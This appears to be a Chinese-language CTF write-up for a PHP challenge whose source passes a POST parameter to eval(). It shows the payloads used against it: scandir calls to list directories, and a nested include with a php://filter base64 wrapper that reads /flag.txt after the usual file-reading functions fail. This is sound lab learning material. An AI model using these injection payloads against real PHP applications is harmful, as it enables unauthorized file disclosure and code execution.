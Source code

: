 ![image-20250404161946983](./assets/image-20250404161946983.png)



依旧

嵌套include读取源码

![image-20250404162112514](./assets/image-20250404162112514.png)

![image-20250404162105258](./assets/image-20250404162105258.png)

```
<?php

/*
# -*- coding: utf-8 -*-
# @Author: Lazzaro
# @Date:   2020-09-05 20:49:30
# @Last Modified by:   h1xa
# @Last Modified time: 2020-09-07 22:02:47
# @email: h1xa@ctfer.com
# @link: https://ctfer.com

*/

// 你们在炫技吗？
if(isset($_POST['c'])){
        $c= $_POST['c'];
        eval($c);
}else{
    highlight_file(__FILE__);
}
```

发现题目内容无变化，只是禁用了highlight_file()函数



无参rce

```
c=var_dump(scandir(getcwd()));
```

![image-20250404162203591](./assets/image-20250404162203591.png)

```
c=var_dump(scandir("/"));
```

![image-20250404162236273](./assets/image-20250404162236273.png)



依旧是根目录中存在flag.txt



读取

show_source()

highlight_file()

readfile()

pinrt_r(file())

都失败



继续嵌套include

```
c=include$_POST[a]?>&a=php://filter/convert.base64-encode/resource=/flag.txt
```

![image-20250404162508217](./assets/image-20250404162508217.png)

![image-20250404162528262](./assets/image-20250404162528262.png)